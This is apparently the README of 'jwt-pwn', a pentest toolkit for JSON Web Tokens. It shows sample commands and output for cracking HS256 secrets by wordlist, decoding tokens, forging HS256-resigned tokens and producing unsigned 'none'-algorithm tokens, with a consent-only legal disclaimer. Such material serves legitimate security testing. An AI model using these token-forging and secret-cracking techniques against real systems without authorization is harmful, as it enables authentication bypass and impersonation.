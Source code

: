 jwt-pwn
=========

## Security Testing Scripts for JWT

---

## jwt-cracker.py

JWT password/secret cracker.

```
$python3 jwt-cracker.py -jwt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4" -t 10 -w /pentest/wordlist.txt
[info] Loaded wordlist.
[info] starting brute-forcing.
[#] KEY FOUND: 1234
```

---


## go-jwt-cracker

JWT password/secret cracker that is much faster.

```
$ cd go-jwt-cracker && go build # Building the binary.

$ ./go-jwt-cracker -wordlist /pentest/wordlist.txt -token "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4"
[+] Key Found: 1234
```

---

## jwt-decoder.py

Decodes the value of JWT.

```
$ python3 jwt-decoder.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1
YqLEv9ypAApz27nfYP5L4"


[#] JWT Header:
{"alg": "HS256", "typ": "JWT"}

[#] JWT Value:
{"jwt": "pwn"}
```

---

## jwt-any-to-hs256.py

Generates a new JWT that is signed with HS256 with the same payload value of a provided JWT.

```
python3 jwt-any-to-hs256.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc
8D-J1YqLEv9ypAApz27nfYP5L4"


[#] Generated JWT:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqd3QiOiJwd24ifQ.WqY6R5zmscIx_6ZFwSASHZ_1zbqih_IdtLv_S2Pj028
```

---

## jwt-mimicker.py

Generates a new unsigned JWT with the same payload value of a provided JWT.

```
python3 jwt-mimicker.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J
1YqLEv9ypAApz27nfYP5L4"


[#] Generated unsigned JWT:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJqd3QiOiJwd24ifQ.
```

---

# **Requirements** #
* Python2 or Python3
* pyjwt


# **Legal Disclaimer** #
This project is made for educational and ethical testing purposes only. Usage of jwt-pwn for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# **License** #
The project is licensed under MIT License.


# **Author** #
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
